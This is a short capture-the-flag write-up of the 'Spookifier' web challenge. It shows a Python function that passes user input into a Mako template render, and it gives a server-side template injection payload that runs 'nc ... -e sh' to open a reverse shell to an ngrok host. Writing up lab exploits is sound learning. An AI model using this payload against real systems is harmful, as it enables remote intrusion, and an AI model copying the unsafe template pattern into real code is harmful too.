

# Web - Spookifier

As I did with Evaluation Deck, I was skimming though the source code that you get when you start this challenge and saw something that stood out to me. Mako was being imported. Now when you have done enough web CTF challenges and worked doing web attacks before you will begin to pick up on things you've seen or read before and Mako is one I remember reading about on HackTricks' server side template injection (SSTI) page, linked [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python).

Now that I knew what the attack method was I needed to find where to exploit it. This took a quick second as I read through the source code and found where it was in the generate\_render function, that you can see in the code block below.

```python
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()
```

The injection point would be at {3} as the rest were converting our text to special characters that wouldn't be injected.&#x20;

After some quick googling to find some payloads and some trial and error I got a reverse shell using nc and ngrok, as the the website was not on a VPN. The final payload for this was:

```
${self.module.runtime.exceptions.traceback.linecache.os.system("nc 2.tcp.ngrok.io 16299 -e sh")}
```

Once this was input I got a reverse shell back, as seen below, and the rest was history.

<figure><figcaption></figcaption></figure>

GGs
